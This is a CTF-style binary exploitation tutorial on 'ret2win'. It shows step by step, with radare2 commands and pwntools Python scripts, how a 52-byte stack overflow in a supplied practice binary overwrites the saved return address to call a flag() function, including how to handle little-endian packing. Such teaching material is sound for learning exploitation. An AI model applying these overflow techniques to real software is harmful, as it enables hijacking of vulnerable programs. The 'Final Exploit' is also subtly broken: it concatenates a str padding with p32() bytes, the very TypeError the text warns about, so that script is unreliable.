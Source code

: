 ```yaml
---
description: One of the most basic binexp challenges of all
---
```


# ret2win

A **ret2win** is simply a binary where there is a `win()` function \(or equivalent\); once you successfully redirect execution there, you complete the challenge.

To carry this out, we have to leverage what we learnt in the **introduction**, but in a _predictable manner_ - we have to overwrite EIP, but to a specific value of our choice.

To do this, what do we need to know? Well, a couple things:

* The padding _until_ we begin to overwrite the return pointer \(EIP\)
* What value we want to overwrite EIP to

{% hint style="warning" %}
When I say "overwrite EIP", I mean overwrite the saved return pointer that gets popped into EIP. The EIP register is not located on the stack, so it is not overwritten directly.
{% endhint %}

{% file src="../../.gitbook/assets/ret2win.zip" caption="ret2win" %}

### Finding the Padding

This can be found using simple trial and error; if we send a variable numbers of characters, we can use the `Segmentation Fault` message, in combination with radare2, to tell when we overwrote EIP. There is a better way to do it than simple brute force \(we'll cover this in the next post\), but it'll do for now.

{% hint style="info" %}
You may get a segmentation fault for reasons other than overwriting EIP; use a debugger to make sure the padding is correct.
{% endhint %}

We get an offset of 52 bytes.

### Finding the Address

Now we need to find the address of the `flag()` function in the binary. This is simple.

```text
$ r2 -d -A vuln
$ afl
[...]
0x080491c3    1 43           sym.flag
[...]
```

{% hint style="info" %}
`afl` stands for **A**nalyse **F**unctions **L**ist
{% endhint %}

The `flag()` function is at `0x080491c3`.

### Using the Information

The final piece of the puzzle is to work out how we can send the address we want. If you think back to the introduction, the `A`s that we sent became `0x41` - which is the ASCII code of `A`. So the solution is simple - let's just find the characters with ascii codes `0x08`, `0x04`, `0x91` and `0xc3`.

This is a lot simpler than you might think, because we can specify them in python as hex:

```python
address = '\x08\x04\x91\xc3'
```

And that makes it much easier.

### Putting it Together

Now we know the padding and the value, let's exploit the binary! We can use [`pwntools`](https://github.com/Gallopsled/pwntools) to interface with the binary \(check out the [pwntools posts](../../other/pwntools/) for a more in-depth look\).

```python
from pwn import *        # This is how we import pwntools

p = process('./vuln')    # We're starting a new process

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

p.clean()                # Receive all the text

p.sendline(payload)

log.info(p.clean())      # Output the "Exploited!" string to know we succeeded
```

If you run this, there is one small problem: it won't work. Why? Let's check with a debugger. We'll put in a `pause()` to give us time to attach `radare2` onto the process.

```python
from pwn import *

p = process('./vuln')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

log.info(p.clean())

pause()        # add this in

p.sendline(payload)

log.info(p.clean())
```

Now let's run the script with `python3 exploit.py` and then open up a new terminal window.

```text
r2 -d -A $(pidof vuln)
```

By providing the PID of the process, radare2 hooks onto it. Let's break at the return of `unsafe()` and read the value of the return pointer.

```text
[0x08049172]> db 0x080491aa
[0x08049172]> dc

<< press any button on the exploit terminal window >>

hit breakpoint at: 80491aa
[0x080491aa]> pxw @ esp
0xffdb0f7c  0xc3910408 [...]
[...]
```

`0xc3910408` - look familiar? It's the address we were trying to send over, except the bytes have been reversed, and the reason for this reversal is [endianness](https://en.wikipedia.org/wiki/Endianness). Big-endian systems store the **most significant byte** \(the byte with the largest value\) at the smallest memory address, and this is how we sent them. Little-endian does the opposite \([for a reason](https://softwareengineering.stackexchange.com/questions/95556/what-is-the-advantage-of-little-endian-format)\), and most binaries you will come across are little-endian. As far as we're concerned, the byte are stored in _reverse order_ in little-endian executables.

### Finding the Endianness

`radare2` comes with a nice tool called `rabin2` for binary analysis:

```text
$ rabin2 -I vuln
[...]
endian   little
[...]
```

So our binary is **little-endian**.

### Accounting for Endianness

The fix is simple - reverse the address \(you can also remove the `pause()`\)

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

If you run this now, it will work:

```text
$ python3 tutorial.py 
[+] Starting local process './vuln': pid 2290
[*] Overflow me
[*] Exploited!!!!!
```

And wham, you've called the `flag()` function! Congrats!

### Pwntools and Endianness

Unsurprisingly, you're not the first person to have thought "could they possibly make endianness simpler" - luckily, pwntools has a built-in `p32()` function ready for use!

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

becomes

```python
payload += p32(0x080491c3)
```

Much simpler, right?

The only caveat is that it returns `bytes` rather than a string, so you have to make the padding a byte string:

```python
payload = b'A' * 52        # Notice the "b"
```

Otherwise you will get a

```text
TypeError: can only concatenate str (not "bytes") to str
```

### Final Exploit

```python
from pwn import *            # This is how we import pwntools

p = process('./vuln')        # We're starting a new process

payload = 'A' * 52
payload += p32(0x080491c3)   # Use pwntools to pack it

log.info(p.clean())          # Receive all the text
p.sendline(payload)

log.info(p.clean())          # Output the "Exploited!" string to know we succeeded
```

